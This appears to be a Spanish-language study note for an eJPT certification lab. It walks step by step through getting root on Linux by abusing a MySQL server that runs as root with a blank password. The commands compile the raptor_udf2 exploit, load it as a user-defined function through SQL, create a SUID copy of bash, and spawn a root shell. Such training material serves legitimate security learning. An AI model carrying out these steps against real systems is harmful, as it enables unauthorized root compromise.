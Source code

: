 - Como primera medida ejecutamos el comando:

```
user@debian:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)

```

- Luego ejecutamos los comandos:

```
user@debian:~/tools/mysql-udf$ ps aux | grep mysql
root      1923  0.0  0.1   9180  1400 ?        S    17:21   0:00 /bin/sh /usr/bin/mysqld_safe
root      2048  0.0  2.3 163616 24172 ?        Sl   17:21   0:00 /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --user=root --pid-file=/var/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sock --port=3306
root      2049  0.0  0.0   3896   644 ?        S    17:21   0:00 logger -t mysqld -p daemon.error
user      2682  0.0  0.0   7588   852 pts/0    S+   17:43   0:00 grep mysql
```

para poder observar si el servicio de mysql esta ejecutandose

- El servicio MySQL se ejecuta como root y el usuario "root" del servicio no tiene una contraseña asignada. Podemos utilizar un exploit popular que aprovecha las funciones definidas por el usuario (UDF) para ejecutar comandos del sistema como root a través del servicio MySQL.

- Compilamos el exploit raptor_udf2.c (https://github.com/ankh2054/MySQL-UDF/blob/master/raptor_udf2.c) con los siguientes comandos:

```
gcc -g -c raptor_udf2.c -fPIC  
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

- Nos conectamos al servicio MySQL como usuario root con una contraseña en blanco:

```
mysql -u root
```

- Ejecute los siguientes comandos en el shell MySQL para crear una función definida por el usuario (UDF) "do_system" utilizando nuestro exploit compilado

```
use mysql;  
create table foo(line blob);  
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));  
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';  
create function do_system returns integer soname 'raptor_udf2.so';
```

- Utilice la función para copiar /bin/bash a /tmp/rootbash y establecer el permiso SUID:

```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

- Salga del shell MySQL (escriba exit o \q y presione Enter) y ejecute el ejecutable /tmp/rootbash con -p para obtener un shell que se ejecute con privilegios de root:

```
./rootbash -p
```

y listo ya tenes un shell como root.

enlace:
[Preparacion-Ejpt](Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt.md)



